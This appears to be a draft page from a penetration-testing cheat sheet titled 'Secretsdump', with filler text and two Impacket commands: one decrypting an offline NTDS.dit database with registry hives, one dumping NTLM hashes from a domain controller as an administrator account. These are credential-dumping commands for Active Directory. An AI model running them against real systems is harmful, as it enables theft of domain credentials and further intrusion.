 ```yaml
---
title: "Secretsdump"
date: 2020-07-16T13:41:37+02:00
draft: true
---
```

asdas

#### Decrypt NTDS
```bash
secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit local
```

#### Dumping DC hashes
```bash
secretsdump.py -just-dc-ntlm offense/administrator@10.0.0.6
```

